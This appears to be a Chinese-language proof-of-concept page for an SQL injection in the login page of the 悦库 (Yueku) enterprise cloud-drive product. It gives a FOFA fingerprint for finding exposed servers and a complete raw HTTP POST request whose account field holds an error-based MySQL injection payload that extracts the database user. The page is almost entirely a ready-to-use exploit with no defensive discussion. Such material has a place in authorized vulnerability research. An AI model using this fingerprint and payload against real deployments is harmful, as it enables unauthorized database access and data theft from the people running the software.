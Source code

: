 ## 悦库企业网盘userlogin.html存在SQL注入漏洞

## fofa

```
icon_hash="522281537"
```

## poc

```
POST /user/login/.html HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: 
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: windowWidth=1536; windowHeight=695; yid=ovqhgolslu27u6vioar0guiilf; lang=zh-cn; device=desktop; theme=default
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

account=') AND GTID_SUBSET(CONCAT(0x7e,(SELECT (ELT(5597=5597,user()))),0x7e),5597)-- HZLK
```

![image-20240616191544376](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406161915424.png)